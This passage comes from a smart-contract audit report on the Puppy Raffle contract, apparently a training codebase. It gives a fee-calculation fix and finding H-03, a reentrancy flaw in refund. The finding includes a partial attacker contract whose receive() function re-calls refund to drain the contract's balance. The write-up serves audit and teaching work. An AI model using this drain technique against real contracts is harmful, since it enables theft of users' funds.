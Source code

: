## Recommendations
Either remove the element from the array, or calculate fees from all non-zero addresses at `totalAmountCollected`. Later one seems more gas-efficient, since no array modifications are required.

```solidity
        uint256 totalAmountCollected;
        for (uint256 i = 0; i < players.length; i++) {
            if (players[i] != address(0)) {
                totalAmountCollected += entranceFee;
            }
        }
```
## <a id='H-03'></a>H-03. Reentrancy attack on Refund            

### Relevant GitHub Links
	
https://github.com/Cyfrin/2023-10-Puppy-Raffle/blob/07399f4d02520a2abf6f462c024842e495ca82e4/src/PuppyRaffle.sol#L101

## Summary
Attacker can reenter the `refund` function since state is modified after the funds have been sent.

## Vulnerability Details
Attacker can modify the receive/fallback functions and re-call the refund functions until it's fully drained.

## Impact
Account will be drained


## Tools Used
```solidity
interface IPuppyRaffle {
    function refund(uint256 playerIndex) external;
    function enterRaffle(address[] memory newPlayers) external payable;
    function getActivePlayerIndex(address player) external view returns (uint256);
    function selectWinner() external;
    function withdrawFees() external;
}

contract ReentrancyAttack {
    IPuppyRaffle public raffle;
    address[] private players;

    constructor(address _raffle) {
        raffle = IPuppyRaffle(_raffle);
    }

    receive() external payable {
        if (address(raffle).balance > 0) {
            raffle.refund(0);
        }
    }

    function startGame() external payable {
        players.push(address(this));
        players.push(...);

        raffle.enterRaffle{value: msg.value}(players);

```